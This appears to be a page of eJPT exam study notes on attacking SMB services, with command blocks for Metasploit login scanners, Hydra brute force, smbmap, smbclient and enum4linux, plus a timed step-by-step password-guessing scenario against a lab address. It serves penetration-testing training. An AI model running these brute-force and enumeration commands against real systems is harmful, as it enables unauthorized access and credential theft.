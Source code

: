 #### Level 2 - Very Likely (80% Chance):
```bash
# Wordlist-based password attack
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
exploit
# Expected: Automated credential discovery

# Map share permissions
smbmap -H target_ip -u username -p password
# Expected: Shows access levels for each share

# Connect to specific share
smbclient //target_ip/admin -U admin
# Expected: Interactive file access
```

#### Level 3 - Possible (60% Chance):
```bash
# User enumeration
enum4linux -r -u "admin" -p "password1" target_ip
# Expected: Complete list of user accounts

# Hydra password attack
hydra -l admin -P passwords.txt target_ip smb
# Expected: Alternative password cracking method

# Named pipes enumeration
use auxiliary/scanner/smb/pipe_auditor
set SMBUser admin
set SMBPass password1
exploit
# Expected: Available system pipes
```

### Common eJPT Exam Scenarios:

#### Scenario 1: Basic SMB Password Discovery
**Given:** IP address with SMB service (192.168.1.100)
**Your Job:** Find valid SMB credentials using provided wordlists
**Time Limit:** 8-10 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Confirm SMB service (1 minute)
nmap -p 445 192.168.1.100

# Step 2: Try common credentials (2 minutes)
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.100
set SMBUser admin
set SMBPass admin
exploit

# Step 3: Wordlist attack (4 minutes)
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
exploit

# Step 4: Verify access (1 minute)
smbclient -L //192.168.1.100 -U found_username
```

